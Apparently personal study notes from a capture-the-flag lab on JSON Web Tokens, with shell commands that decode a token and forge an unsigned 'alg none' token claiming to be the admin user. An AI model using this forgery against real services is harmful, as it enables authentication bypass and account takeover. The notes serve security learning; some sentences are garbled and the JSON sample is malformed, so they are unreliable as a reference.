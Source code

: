 # JSON Web Tokens

[[JSON]]

Common Terms | Description/Human Readable
--- | --- 
`nbf <epoch>` |Not before
`exp` | expires

It vulnerable is misconfigured as Data Integrity Failure - see [[OWASP-Top-10-Historic-Definitions]] 

JSON Web Tokens [https://jwt.io/](https://jwt.io/). These are JSON base64 encoded  chunks delimited by dots. 
```json
{
	// Header
	"type":"JWT"
	"alg":"none"
}

{
	// Payload
	"username":"admin"
	"exp":"1234567890"
}

// signature is the signing algorithm used in "alg":
...

// go from 
{HEADER}.{PAYLOAD}.SIGNATURE
// To - do not forget the final dot if you set the signing algorithm to none parser will still expect the .
{HEADER}.{PAYLOAD}.
```

Workflow
```bash
# copy into a file
cat cookie | awk -F. '{print $1}' | base64 -d
cat cookie | awk -F. '{print $2}' | base64 -d

# Then given the fields of the json 
# beware of escaping the quotations in Json 
echo "{\"typ\":\"JWT\",\"alg\":\"none\"}" | base64 | tr -d '=' && echo "{\"username\":\"admin\",\"exp\":1687860563}" | base64 | tr -d '='

# Piece together with two dots
$1.$2.
```


## Reference

[https://jwt.io/](https://jwt.io/)
[THM OWASP TOP 10 2021 Room](https://tryhackme.com/room/owasptop102021)